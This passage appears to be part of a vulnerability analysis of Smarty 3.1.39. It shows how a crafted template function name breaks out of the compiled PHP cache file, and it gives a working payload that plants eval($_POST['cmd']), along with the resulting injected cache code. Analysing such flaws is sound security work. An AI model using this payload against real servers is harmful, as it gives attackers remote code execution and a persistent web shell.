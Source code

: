 ```php
/* smarty_template_function_(){};_18679747696239ecbe74eee5_05027020 */
if (!function_exists('smarty_template_function_(){};_18679747696239ecbe74eee5_05027020')) {
function smarty_template_function_(){};_18679747696239ecbe74eee5_05027020(Smarty_Internal_Template $_smarty_tpl,$params) {
foreach ($params as $key => $value) {
$_smarty_tpl->tpl_vars[$key] = new Smarty_Variable($value, $_smarty_tpl->isRenderingCache);
}
}}
/*/ smarty_template_function_(){};_18679747696239ecbe74eee5_05027020 */
}
```

According to the generated content format, it is not difficult to construct a malicious bypass `Payload`: `data={function name='(){};/*";}/*'}*/eval($_POST['cmd']);"}{/function}&cmd=phpinfo();`. You can see that the generated cache template function is successfully closed perfectly.

```php
<?php
/* Smarty version 3.1.39, created on 2022-03-22 23:45:24
  from 'c16d407db4adb2d55529d8d5521a1a1585555d84' */

/* @var Smarty_Internal_Template $_smarty_tpl */
if ($_smarty_tpl->_decodeProperties($_smarty_tpl, array (
  'version' => '3.1.39',
  'unifunc' => 'content_6239ef14a8b872_01812683',
  'has_nocache_code' => false,
  'file_dependency' =>
  array (
  ),
  'includes' =>
  array (
  ),
),false)) {
function content_6239ef14a8b872_01812683 (Smarty_Internal_Template $_smarty_tpl) {
$_smarty_tpl->smarty->ext->_tplFunction->registerTplFunctions($_smarty_tpl, array (
  '(){};/*";}/*' =>
  array (
    'compiled_filepath' => 'C:\\Tools\\phpstudy_pro\\WWW\\html\\templates_c\\c16d407db4adb2d55529d8d5521a1a1585555d84_0.string.php',
    'uid' => 'c16d407db4adb2d55529d8d5521a1a1585555d84',
    'call_name' => 'smarty_template_function_(){};/*";}/*_12721005126239ef14989679_11892413',
  ),
));
}
/* smarty_template_function_(){};/*";}/*_12721005126239ef14989679_11892413 */
if (!function_exists('smarty_template_function_(){};/*";}/*_12721005126239ef14989679_11892413')) {
function smarty_template_function_(){};/*";}/*_12721005126239ef14989679_11892413(Smarty_Internal_Template $_smarty_tpl,$params) {
foreach ($params as $key => $value) {
$_smarty_tpl->tpl_vars[$key] = new Smarty_Variable($value, $_smarty_tpl->isRenderingCache);
}
?>
*/eval($_POST['cmd']);"}<?php
}}
/*/ smarty_template_function_(){};/*";}/*_12721005126239ef14989679_11892413 */
}
```
